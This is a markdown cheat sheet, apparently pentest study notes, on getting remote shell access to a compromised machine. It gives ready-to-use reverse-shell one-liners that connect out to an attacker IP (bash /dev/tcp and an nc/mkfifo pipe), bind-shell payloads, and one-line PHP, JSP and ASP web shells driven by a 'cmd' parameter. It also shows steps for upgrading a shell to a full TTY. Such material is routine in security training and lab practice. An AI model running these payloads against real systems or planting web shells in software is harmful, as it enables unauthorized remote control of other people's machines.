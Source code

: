 ### Overview
- **Purpose**: To establish reliable remote access to a compromised system for enumeration, control, and further exploitation.
- **Main Types**:
    1. **Reverse Shell**: The target connects back to the attacker's system.
    2. **Bind Shell**: The target listens on a port; the attacker connects to it.
    3. **Web Shell**: Commands are executed via HTTP requests to a script hosted on the target.



### **1. Reverse Shell**
- **Description**: The compromised system connects back to the attacker.
- **Setup**:
    1. Start a **Netcat Listener**:
        ```bash
        nc -lvnp 1234
        ```
        - `-l`: Listen mode.
        - `-v`: Verbose output.
        - `-n`: Disable DNS resolution.
        - `-p`: Specify the listening port.
    2. Determine the attacker's IP (e.g., via `ip a`).
    3. Execute a reverse shell payload on the target.
- **Example Payloads**:    
    - **Linux (Bash)**:
        ```bash
        bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
        ```
    - **Windows (PowerShell)**:
        ```powershell
        powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);..."
        ```
    - **Netcat**:
        ```bash
        rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.10.10 1234 >/tmp/f
        ```
- **Strengths**:
    - Quick and easy to set up.
- **Limitations**:
    - Connection is fragile; needs re-exploitation if lost.



### **2. Bind Shell**
- **Description**: The compromised system listens on a port for incoming connections.
- **Setup**:
    1. Execute a bind shell payload on the target.
    2. Connect to the target using **Netcat**:    
        ```bash
        nc <target_ip> 1234
        ```
- **Example Payloads**:
    - **Linux (Bash)**:
        ```bash
        rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -lvp 1234 >/tmp/f
        ```
    - **Python**:
        ```python
        python -c 'import socket as s,subprocess as sp;...'
        ```
    - **Windows (PowerShell)**:
        ```powershell
        powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; ...
        ```
- **Strengths**:
    - Persistent; allows reconnection without re-exploitation.
- **Limitations**:
    - May require open inbound ports, which could be firewalled.



### **3. Web Shell**
- **Description**: Commands are executed through HTTP parameters sent to a web script hosted on the target.
- **Setup**:
    1. Write a web shell script in the target's webroot directory.
    2. Example Web Shell Scripts:
        - **PHP**:
            ```php
            <?php system($_REQUEST["cmd"]); ?>
            ```
        - **JSP**:
            ```jsp
            <% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
            ```
        - **ASP**:
            ```asp
            <% eval request("cmd") %>
            ```
    3. Access the web shell through a browser or `curl`:
        ```bash
        curl http://<target_ip>:<port>/shell.php?cmd=id
        ```
- **Strengths**:
    - Persistent; remains functional even after a reboot.
    - Bypasses firewall restrictions by using web server ports (80/443).
- **Limitations**:
    - Not interactive; requires automation for semi-interactive use.



### **Upgrading Shells**
- **Purpose**: Improve interactivity by upgrading a raw shell to a full TTY shell.
- **Steps**:
    1. Use Python to spawn a TTY:
        ```bash
        python -c 'import pty; pty.spawn("/bin/bash")'
        ```
    2. Background the shell (`CTRL+Z`) and adjust terminal settings:
        ```bash
        stty raw -echo
        fg
        ```
	    - Press `[Enter]` to resume.
    3. Set terminal environment:
        ```bash
        export TERM=xterm-256color
        stty rows <rows> columns <columns>
        ```
        


### Comparison of Shell Types

|**Shell Type**|**Strengths**|**Limitations**|
|---|---|---|
|**Reverse Shell**|Quick setup, works behind firewalls/NAT.|Fragile; requires re-exploitation if disconnected.|
|**Bind Shell**|Persistent; reconnect without re-exploitation.|Requires open ports; inbound connections might be blocked.|
|**Web Shell**|Persistent; bypasses firewalls; uses existing web ports.|Non-interactive; requires repeated requests or automation.|
